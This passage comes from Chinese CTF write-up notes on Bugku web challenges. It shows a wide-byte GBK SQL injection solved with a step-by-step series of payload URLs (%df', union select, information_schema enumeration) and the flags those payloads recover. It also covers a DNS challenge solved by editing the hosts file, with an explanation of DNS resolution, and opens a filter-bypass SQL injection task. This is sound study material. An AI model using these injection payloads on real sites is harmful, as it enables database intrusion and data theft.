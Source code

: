 		宽字节注入
		http://103.238.227.13:10083/?id=1 使用了'、'and 1=2',打开源码看了下gbk编码，考虑宽字符注入构造payloadhttp://103.238.227.13:10083/?id=1%df',成功了，就是宽字符注入。
		http://103.238.227.13:10083/?id=1%df' order by 2%23一共有两列
		http://103.238.227.13:10083/?id=1%df' union select 1,2--+
		http://103.238.227.13:10083/?id=1%df' union select 1,database()--+ 数据库是sql5
		http://103.238.227.13:10083/?id=1%df' union select 1,string from sql5.key--+ 题目要求查询string字段 查询key表
		http://103.238.227.13:10083/?id=1%df' union select 1,string from `key` where id=1%23
		ps:如果直接查询key表的话key既是表名又是字段名，具体的原因可以这样看
		payload:http://103.238.227.13:10083/?id=1%df' union select 1,string from key--+
		http://103.238.227.13:10083/?id=1%df' union select 1,table_name from information_schema.tables--+ 表名中有个key
		http://103.238.227.13:10083/?id=1%df' union select 1,column_name from information_schema.columns--+ 字段名中有个key
		
		54f3320dc261f313ba712eb3f13a1f6d
		KEY{gbk!#@}
		KEY{54f3320dc261f313ba712eb3f13a1f6d}

9. 域名解析 50

	>听说把 flag.bugku.com 解析到120.24.86.145 就能拿到flag
		
	解答：

		DNS服务器中无该域名的解析数据
		windows xp/2003/vista/2008/7/8用户HOSTS文件是在“c:\windows\system32\drivers\etc
		按下Win+R组合键，调出运行栏,在运行文本框输入c:\windows\system32\drivers\etc
		120.24.86.145	flag.bugku.com
		KEY{DSAHDSJ82HDS2211}
		
		在浏览器中修改重发数据包，访问地址120.24.86.145，host:flag.bugku.com在响应载荷中即可获得flag
		（模拟发送数据包）

		DNS解析的详细过程
		1、在浏览器中输入www  . qq  .com 域名，操作系统会先检查自己本地的hosts文件是否有这个网址映射关系，如果有，就先调用这个IP地址映射，完成域名解析。 
		2、如果hosts里没有这个域名的映射，则查找本地DNS解析器缓存，是否有这个网址映射关系，如果有，直接返回，完成域名解析
		3、如果hosts与本地DNS解析器缓存都没有相应的网址映射关系，首先会找TCP/ip参数中设置的首选DNS服务器，在此我们叫它本地DNS服务器，此服务器收到查询时，如果要查询的域名，包含在本地配置区域资源中，则返回解析结果给客户机，完成域名解析，此解析具有权威性。 
		4、如果要查询的域名，不由本地DNS服务器区域解析，但该服务器已缓存了此网址映射关系，则调用这个IP地址映射，完成域名解析，此解析不具有权威性。 
		5、如果本地DNS服务器本地区域文件与缓存解析都失效，则根据本地DNS服务器的设置（是否设置转发器）进行查询，如果未用转发模式，本地DNS就把请求发至13台根DNS，根DNS服务器收到请求后会判断这个域名(.com)是谁来授权管理，并会返回一个负责该顶级域名服务器的一个IP。本地DNS服务器收到IP信息后，将会联系负责.com域的这台服务器。这台负责.com域的服务器收到请求后，如果自己无法解析，它就会找一个管理.com域的下一级DNS服务器地址(http://qq.com)给本地DNS服务器。当本地DNS服务器收到这个地址后，就会找http://qq.com域服务器，重复上面的动作，进行查询，直至找到www  . qq  .com主机。 
		6、如果用的是转发模式，此DNS服务器就会把请求转发至上一级DNS服务器，由上一级服务器进行解析，上一级服务器如果不能解析，或找根DNS或把转请求转至上上级，以此循环。不管是本地DNS服务器用是是转发，还是根提示，最后都是把结果返回给本地DNS服务器，由此DNS服务器再返回给客户机。     从客户端到本地DNS服务器是属于递归查询，而DNS服务器之间就是的交互查询就是迭代查询。

10. SQL注入1 60
	>地址：http://103.238.227.13:10087/  
	>提示：过滤了关键字 你能绕过他吗  
	>flag格式KEY{xxxxxxxxxxxxx}   

	解答：
		
		substr_count() 函数计算子串在字符串中出现的次数。
		substr_count(string,substring,start,length)
		注释：子串是区分大小写的。
		注释：该函数不计数重叠的子串（参见例子 2）。
		注释：如果 start 参数加上 length 参数大于字符串长度，则该函数生成一个警告（参见例子 3）。
